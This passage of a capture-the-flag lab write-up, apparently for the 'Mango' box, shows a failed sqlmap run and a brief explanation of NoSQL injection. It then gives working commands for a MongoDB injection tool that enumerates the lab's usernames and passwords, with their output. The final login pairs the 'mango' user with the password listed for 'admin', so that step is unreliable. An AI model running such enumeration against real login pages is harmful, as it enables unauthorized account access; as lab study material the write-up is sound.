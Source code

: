 



# Initial Foothold

## TCP/80 (HTTP) - staging-order.mango.htb NoSQLi w/ NoSQLi Tool
1. Found a login page, at `http://staging-order.mango.htb/`
	![]({{ page.img_path }}Pasted%20image%2020220924030231.png)
1. Tried SQLi, failed
	```
	┌──(root💀kali)-[~/htb/mango/10.10.10.162/exploit]
	└─# sqlmap -r login.req --batch
	[02:07:20] [CRITICAL] all tested parameters do not appear to be injectable. 
	```
3. What is NoSQL Injection
	- A security weakness that affects web applications that uses a NoSQL database, instead they manage data as key-value pairs, documents, or data graphs.
	- Similar to SQL Injection, allows attackers to bypass authentication, exfiltrate sensitive data, tamper w/ the data on the database.
	- Occurs due to the lack/insufficient user input, the same as SQLi. - [Source](https://www.imperva.com/learn/application-security/nosql-injection/)
4. [NoSQLi (`mongoDB`) Tool](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
	- This tool allows us to enumerate usernames and password of web applications that are vulnerable to NoSQL (`mongoDB`).
5. Try NoSQLi w/  [NoSQLi (`mongoDB`) Tool](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
	1. Enumerate usernames
		```
		┌──(root💀kali)-[~/htb/mango/10.10.10.162/exploit]
		└─# python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep username -op login:login,submit:submit -m POST
		
		2 username(s) found:
		admin
		mango
		```
	2. Enumerate passwords
		```
		┌──(root💀kali)-[~/htb/mango/10.10.10.162/exploit]
		└─# python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -ep password -op login:login,submit:submit -m POST
		
		2 password(s) found:
		h3mXK8RhU~f{]f5H
		t9KcS3>!0B#2
		```
		- `admin:h3mXK8RhU~f{]f5H`
		- `mango:t9KcS3>!0B#2`
6. Successfully login w/ `mango:h3mXK8RhU~f{]f5H`
	![]({{ page.img_path }}Pasted%20image%2020220925002701.png)
	